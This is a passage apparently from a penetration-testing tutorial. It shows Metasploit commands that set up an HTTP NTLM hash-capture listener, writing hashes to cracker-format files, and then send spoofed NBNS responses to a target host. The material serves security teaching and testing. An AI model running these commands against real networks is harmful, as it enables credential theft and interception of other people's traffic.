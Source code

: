 ![SMB Server listener](media/7054c42b552cb78eee93abf368d34118.png)SMB Server listener

The Metasploit framework’s capture module for NTLM authentication query over HTTP can be configured as follows:

| 1 2 3 4 5 6 7 8  | msf6 auxiliary(server/capture/smb) \> use auxiliary/server/capture/http_ntlm msf6 auxiliary(server/capture/http_ntlm) \> set SRVHOST 192.168.56.104 msf6 auxiliary(server/capture/http_ntlm) \> set SRVPORT 80 msf6 auxiliary(server/capture/http_ntlm) \> set URIPATH / msf6 auxiliary(server/capture/http_ntlm) \> set cainwpfile /tmp/cain-smb msf6 auxiliary(server/capture/http_ntlm) \> set johnpwfile /tmp/john-smb msf6 auxiliary(server/capture/http_ntlm) \> set logfile /tmp/logfile msf6 auxiliary(server/capture/http_ntlm) \> run  |
|------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![A screenshot of a computer Description automatically generated](media/1d41f59491c4045fab3d183b18b92ec2.png)HTTP Server listener

The auxiliary/spoof/nbns/nbns_response module creates NetBIOS broadcast requests over the network and sends NetBIOS name service responses to hosts.

| 1 2 3  | msf6 auxiliary(server/capture/http_ntlm) \> use auxiliary/spoof/nbns/nbns_response msf6 auxiliary(spoof/nbns/nbns_response) \> set SPOOFIP 10.10.x.x \# Target IP address msf6 auxiliary(spoof/nbns/nbns_response) \> run  |
|--------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Spoofing target machine with NBNS Response.](media/62b39ba629ad2b0d5c14281c237c5769.png)Spoofing target machine with NBNS Response.

